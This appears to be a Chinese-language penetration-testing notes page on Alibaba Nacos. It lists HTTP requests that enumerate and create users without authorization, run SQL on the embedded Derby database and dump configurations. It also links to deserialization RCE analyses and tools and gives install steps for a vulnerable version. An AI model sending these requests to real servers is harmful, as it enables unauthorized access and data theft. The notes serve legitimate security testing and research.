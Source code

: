 ### 查看用户
```
GET /nacos/v1/auth/users?pageNo=1&pageSize=100
```

### 创建用户
```
POST /nacos/v1/auth/users?username=test&password=test123
```

### unauth
```
/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st
```

> These endpoints are only valid when using embedded storage (derby DB) so this issue should not affect those installations using external storage (e.g. mysql)

- https://securitylab.github.com/advisories/GHSL-2020-325_326-nacos/
- https://www.cnblogs.com/hack404/p/14697313.html

```
/nacos/v1/cs/configs?dataId=&group=&appName=&config_tags=&pageNo=1&pageSize=100&tenant=&search=accurate
```

### 反序列化漏洞
- https://exp10it.cn/2023/06/nacos-jraft-hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-rce-%E5%88%86%E6%9E%90/
- https://github.com/c0olw/NacosRce/tree/main


## 安装
https://github.com/alibaba/nacos/releases/download/2.0.3/nacos-server-2.0.3.zip
```
unzip -q nacos-server-2.0.3.zip
bin/startup.sh -m standalone
```

![image](https://user-images.githubusercontent.com/30398606/173304250-3c57144d-6b7b-4291-bc31-473c07cf504b.png)


## 参考
- [Nacos结合Spring Cloud Gateway RCE利用](https://xz.aliyun.com/t/11493)
- [Nacos Client Yaml反序列化漏洞分析](https://xz.aliyun.com/t/10355)
- https://github.com/google/tsunami-security-scanner-plugins/issues/118
- https://github.com/google/tsunami-security-scanner-plugins/issues/119
- https://github.com/alibaba/nacos/issues/1105
- [云原⽣组件Nacos新型红队手法研究](https://mp.weixin.qq.com/s/Jwwd5ailKNhwR57ACXB1kQ)

